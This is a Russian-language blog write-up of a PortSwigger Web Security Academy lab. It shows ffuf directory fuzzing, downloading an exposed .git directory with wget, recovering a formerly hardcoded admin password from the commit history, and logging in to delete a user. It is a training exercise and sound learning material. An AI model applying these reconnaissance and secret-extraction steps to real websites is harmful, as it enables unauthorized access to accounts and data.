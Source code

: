 ```yaml
---
title: "Information disclosure in version control history"
date: 2025-07-10
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-in-version-control-history"
classes: wide
---
```


В лабораторной работе можно получить доступ к системе контроля версий git и извлечь из нее данные для входа в учетную запись администратора.

Для решения нужно залогиниться от лица админа и удалить пользователя `carlos`.

```
https://0a3f00d5049e908f80d1448300ca0041.web-security-academy.net
```

## Solution

Осмотрю сайт. Попробую залогиниться с постоянными кредами в лабах `PortSwigger` — `wiener`:`peter`, хоть их нам и не дали. Успех ~~взломал, получается~~

![IMG](/assets/images/PortSwigger/IMG_information_disclosure/IMG_Information_disclosure_in_version_control_history/1.png){: height="200" .align-center}

Ладно, пойду запускать `ffuf`:

```bash
cu63:~/ $ ffuf -u https://0a3f00d5049e908f80d1448300ca0041.web-security-academy.net/FUZZ -w ~/wordlists/common.txt                                                                                                                                                                                                                                               [17:04:24]

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : https://0a3f00d5049e908f80d1448300ca0041.web-security-academy.net/FUZZ
 :: Wordlist         : FUZZ: /Users/cu63/wordlists/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.git/HEAD               [Status: 200, Size: 23, Words: 2, Lines: 2, Duration: 236ms]
.git/config             [Status: 200, Size: 157, Words: 14, Lines: 9, Duration: 296ms]
.git/index              [Status: 200, Size: 225, Words: 2, Lines: 3, Duration: 243ms]
.git/logs/              [Status: 200, Size: 548, Words: 152, Lines: 19, Duration: 324ms]
.git                    [Status: 200, Size: 1201, Words: 256, Lines: 27, Duration: 371ms]
ADMIN                   [Status: 401, Size: 2617, Words: 1049, Lines: 54, Duration: 69ms]
Login                   [Status: 200, Size: 3192, Words: 1315, Lines: 64, Duration: 71ms]
Admin                   [Status: 401, Size: 2617, Words: 1049, Lines: 54, Duration: 81ms]
admin                   [Status: 401, Size: 2617, Words: 1049, Lines: 54, Duration: 157ms]
analytics               [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 62ms]
:: Progress: [1437/4686] :: Job [1/1] :: 54 req/sec :: Duration: [0:00:25] :: Errors: 0 ::
```

Сразу интересно) Пойду смотреть файлы `.git`:

![IMG](/assets/images/PortSwigger/IMG_information_disclosure/IMG_Information_disclosure_in_version_control_history/2.png){: height="200" .align-center}

Вот такое нашел в логах:

![IMG](/assets/images/PortSwigger/IMG_information_disclosure/IMG_Information_disclosure_in_version_control_history/3.png){: height="200" .align-center}

Скачаю директорию `.git` к себе на комп:

```bash
wget -r https://0a3f00d5049e908f80d1448300ca0041.web-security-academy.net/.git
```

Зайду в эту папку и введу следующую команду:

```bash
git restore .
```

Я смог восстановить файлы:

![IMG](/assets/images/PortSwigger/IMG_information_disclosure/IMG_Information_disclosure_in_version_control_history/4.png){: height="200" .align-center}

Попробу посмотреть логи изменений через `git show`:

![IMG](/assets/images/PortSwigger/IMG_information_disclosure/IMG_Information_disclosure_in_version_control_history/5.png){: height="200" .align-center}

Можно увидеть, что пароль `9fpnrxua13e5nx90y6kf` раньше был захардкожен, а теперь берется из `env`. Но я все равно его достал. Бегом в ЛК, пока не спалили)

![IMG](/assets/images/PortSwigger/IMG_information_disclosure/IMG_Information_disclosure_in_version_control_history/6.png){: height="200" .align-center}

Удалил пользователя, а значит лаба решена)

![IMG](/assets/images/PortSwigger/IMG_information_disclosure/IMG_Information_disclosure_in_version_control_history/7.png){: height="200" .align-center}
